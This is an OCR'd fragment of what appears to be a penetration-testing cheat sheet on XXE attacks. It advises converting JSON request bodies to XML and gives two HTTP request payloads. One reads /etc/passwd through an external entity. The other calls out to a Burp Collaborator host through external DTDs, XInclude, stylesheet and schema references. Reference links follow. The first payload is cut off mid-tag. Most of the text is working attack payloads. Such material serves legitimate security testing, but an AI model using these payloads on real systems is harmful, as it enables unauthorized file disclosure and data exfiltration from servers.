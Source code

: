 * If Body Of Request JSON Data , Try To Convert It XML With XXE Payloads

```http
POST /Endpoint-To-Proxy/ HTTP/1.1
Host: www.company.com
Content-Type: application/xml
Content-Length: Number
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
 <parame
```

* [https://www.slideshare.net/ssuserf09cba/xxe-how-to-become-a-jedi](https://www.slideshare.net/ssuserf09cba/xxe-how-to-become-a-jedi)
* [https://blog.netspi.com/playing-content-type-xxe-json-endpoints/](https://blog.netspi.com/playing-content-type-xxe-json-endpoints/)
* [https://blog.zsec.uk/blind-xxe-learning/](https://blog.zsec.uk/blind-xxe-learning/)

```http
POST /Endpoint-To-Proxy/ HTTP/1.1
Host: www.company.com
Content-Type: application/xml
Content-Length: Number


<?xml version="1.0" encoding="utf-8"?>
<?xml-stylesheet type="text/xml "href="http://RandomString(10).id.burpcollaborator.net/file.xsl"?>
<!DOCTYPE root PUBLIC "-//A/B/EN" http://RandomString(10).id.burpcollaborator.net/file.dtd [
<!ENTITY % remote SYSTEM "http://RandomString(10).id.burpcollaborator.net/path">
<!ENTITY xxe SYSTEM "http://RandomString(10).id.burpcollaborator.net/path">
%remote;
]>
<root>
    <foo>&xxe;</foo>
    <x xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:includehref="http://RandomString(10).id.burpcollaborator.net/" ></x>
    <y xmlns=http://a.b/
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://a.b/
    http:///RandomString(10).id.burpcollaborator.net/file.xsd">a</y>
</root>
```

* [https://youtube.com/watch?v=ha6LD1-RiJU](https://youtube.com/watch?v=ha6LD1-RiJU)

## RealWorld Examples
